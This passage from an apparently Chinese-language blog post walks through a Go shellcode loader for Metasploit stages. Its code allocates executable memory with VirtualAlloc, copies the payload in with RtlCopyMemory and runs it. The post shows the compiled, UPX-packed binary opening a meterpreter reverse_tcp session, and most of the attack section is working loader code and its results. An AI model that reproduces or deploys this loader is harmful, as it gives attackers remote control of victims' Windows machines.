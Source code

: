 把 `mov edi, xxxx` 放到了 stages 头部

## 执行stages

一切的准备工作都做完了，下面就是开始准备执行了，类似执行 shellcode 的方式，这里的实现方式八仙过海各显神通了，我这里只给我我这里的实现方式

```go
// modify payload to comply with the plan9 calling convention
payload = append(
    []byte{0x50, 0x51, 0x52, 0x53, 0x56, 0x57},
    append(
        payload,
        []byte{0x5D, 0x5F, 0x5E, 0x5B, 0x5A, 0x59, 0x58, 0xC3}...,
    )...,
)
addr, _, err := virtualAlloc.Call(0, uintptr(len(payload)), 0x1000|0x2000, 0x40)
if addr == 0 {
    return err
}
RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&payload[0])), uintptr(len(payload)))
syscall.Syscall(address, 0, 0, 0, 0)
```

这里的一串奇奇怪怪的字符可以不用加，只是为了遵守 plan9 汇编的调用约定，一些 push 保存堆栈现场和 pop 还原

然后就是先通过申请 `VirtualAlloc` 一块可读可写可执行的内存，然后使用 `RtlCopyMemory` 把 stages 字节码拷贝进去，然后开始跑。

这里的 windows api 使用的声明如下

```go
var (
	kernel32      = syscall.MustLoadDLL("kernel32.dll")
	ntdll         = syscall.MustLoadDLL("ntdll.dll")
	virtualAlloc  = kernel32.MustFindProc("VirtualAlloc")
	RtlCopyMemory = ntdll.MustFindProc("RtlCopyMemory")
)
```

这里其实你也可以使用 `x/windows` 库方便使用。

## 结果展示

![enter description here](https://raw.githubusercontent.com/akkuman/pic/master/pic/2021/8/6d4717de3cf8fbd19a19d72b671be134..png)

64位编译出来 1.73M，通过 upx 压缩后 616kb，32位编译出来会更小

执行试试

![enter description here](https://raw.githubusercontent.com/akkuman/pic/master/pic/2021/8/20892da00717ec56573de8a2d3d24854..png)

![enter description here](https://raw.githubusercontent.com/akkuman/pic/master/pic/2021/8/e528ffdc204111ba2d255bce27ddd648..png)

监听 payload windows/x64/meterpreter/reverse_tcp ，可以看到成功上线

## 注意事项

- **可能因为 Golang 版本不一致，这个结构有所更改，请自行考证一下，主要原因是非导出字段，官方是不保证向下兼容性的**
- **依然需要注意位数的差异，比如32位的payload请使用32位编译，64位payload使用64位编译**

## 成果源码

成果源码我就不贴出来了，其实也是这些代码组合在一起